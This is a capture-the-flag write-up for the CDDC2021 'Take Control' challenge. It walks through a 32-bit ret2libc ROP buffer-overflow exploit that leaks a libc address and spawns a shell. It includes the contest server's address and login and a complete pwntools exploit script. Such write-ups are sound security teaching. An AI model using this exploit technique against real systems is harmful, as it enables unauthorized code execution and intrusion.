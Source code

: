 ```yaml
---
title : "Take Control [Pwn]"
categories: CDDC2021
disass:
 - url: /assets/images/take_control/main.png
   image_path: /assets/images/take_control/main.png
   title: "main"
 - url: /assets/images/take_control/vuln.png
   image_path: /assets/images/take_control/vuln.png
   title: "vuln"
---
```


Simple Return Oriented Programming challenge. Second pwn challenge in CDDC2021.

# Challenge Description

One of TheKeepers found a file that seems too vulnerable we need your help to exploit it. Download the file and try to figure out how you can exploit it. Once you have a working exploit, execute it on the remote target.

```
Target: 18.136.182.104 port 60220
Username: bot
Password: GDCpa$$w0rd2021
```

Link: [http://157.230.245.61/0x0602/Ehai8f/m2/file.zip](http://157.230.245.61/0x0602/Ehai8f/m2/file.zip)

SHA256: 9ea8ac313a943e84e0dd2126e825232c32d7036ae43f463e1aee83dd296fac16

# Solution

Download + unzip the zip file, we get a 32bit binary and libc. This strongly hints ROP. Since it is 32 bit, no gadgets are needed, and arguments just go onto the stack.

Before I did anything, I ran a quick `checksec` on both the files.

{% include image.html url="/assets/images/take_control/checksec.png" description="" %}

Binary doesn't have PIE, great! I later found out that server has ASLR, so that means I have to leak libc base somehow...

Next thing I did was just normal protocol: fire up Ghidra.

{% include gallery id="disass" %}

So we can see that `main` elevates our privileges, then calls `vuln`, which is vulnerable (*duhhh*) to buffer overflow. The required padding is 404 bytes for the array and 8 bytes for array pointer and base pointer.

First plan is to call `system("/bin/sh")`, which will give us root shell.

For this, we need to find `system` and `"/bin/sh"` in libc, we can fire up gdb and verify that these two are present. It's not in the binary itself, trust me, I've looked :) 

One thing to note is that we need to make sure we run the binary with the libc in the current directory. So, run this:

```bash
export LD_LIBRARY_PATH=$(pwd)
```

Since `system` is not imported, we would need to leak libc base, then using the offset we have, to find the address of `system` during runtime. We can make use of the handy `geteuid` function that gets called in `main` which means its `.plt.got` entry would have already been updated, saving us one less call (which is totally insignificant but hey).

Here's the ROP chain for leaking `geteuid` address.

```python
rop.raw(OFFSET)
rop.raw(puts)
rop.raw(vuln)
rop.raw(geteuid_got)
```

What this does is print the contents in `geteuid_got`, which is the address of the GOT entry storing the address of the dynamically linked function. Then it returns back to `vuln` after leaking the address, for us to construct a second ROP chain.

With the address of `geteuid` we can calculate the libc base by subtracting away its offset. Then, we can calculate the addresses of `system` and `"/bin/sh"` trivially.

```python
addr_line = r.recvline() # Leaked address
geteuid_addr = int.from_bytes(addr_line[0:4], 'little')

lib_base = geteuid_addr - lib_geteuid
log.info("LIBC base: %s" % hex(lib_base))

system = lib_base + lib_system

str_offset = next(libc.search(b"/bin/sh"))

sh_str = lib_base + str_offset
```

Finally, we spawn shell:

```python
rop.raw(OFFSET)
rop.raw(system)
rop.raw(vuln) # filler
rop.raw(sh_str)
```

Too bad it failed for me and it took me more than 10 hours to realise that the libc the server uses is for amd, whilst the one they gave us is for intel. So I had to do one more step:

```bash
scp -P 60220 bot@18.136.182.104:/usr/lib32/libc.so.6 .
mv libc.so.6 amd_libc.so.6
```

And it finally worked...

```bash
$ cat flag.txt
CDDC21{Y0u_OverFlow_1T}
```

# Final Script
```python
#!/usr/bin/env python3

from pwn import *
import sys

elf = ELF("./gdc_library")
rop = ROP(elf)

if len(sys.argv) < 2 or sys.argv[1] != "remote":
    libc = ELF("./libc.so.6")
    r = process("./gdc_library")
    pause()
else:
    libc = ELF("./amd_libc.so.6")
    ssh_client = ssh(user="bot", password="GDCpa$$w0rd2021", host="18.136.182.104", port=60220)
    r = ssh_client.process("./gdc_library")


OFFSET = "A" * 404 + "B" * 8


###########################
### Important addresses ###
###########################

geteuid = elf.sym["geteuid"]
puts    = elf.sym["puts"]
vuln    = elf.sym["vuln"]

geteuid_got = elf.got["geteuid"]

lib_geteuid = libc.sym["geteuid"]
lib_system  = libc.sym["system"]


##############################
### Leak `geteuid` address ###
##############################

rop.raw(OFFSET)
rop.raw(puts)
rop.raw(vuln)
rop.raw(geteuid_got)

r.recvuntil(":")
r.send(rop.chain())


###################################
### Calculate LIBC base address ###
###################################

r.recvline() # Junk line
addr_line = r.recvline() # Leaked address
geteuid_addr = int.from_bytes(addr_line[0:4], 'little')

lib_base = geteuid_addr - lib_geteuid
log.info("LIBC base: %s" % hex(lib_base))


####################################
### Calculate required addresses ###
####################################

system = lib_base + lib_system

str_offset = next(libc.search(b"/bin/sh"))

sh_str = lib_base + str_offset


###################
### Spawn shell ###
###################

rop = ROP(elf) # new chain

rop.raw(OFFSET)
rop.raw(system)
rop.raw(vuln) # filler
rop.raw(sh_str)

r.recvuntil(":")
r.send(rop.chain())

r.interactive()
```

Flag: `CDDC21{Y0u_OverFlow_1T}`

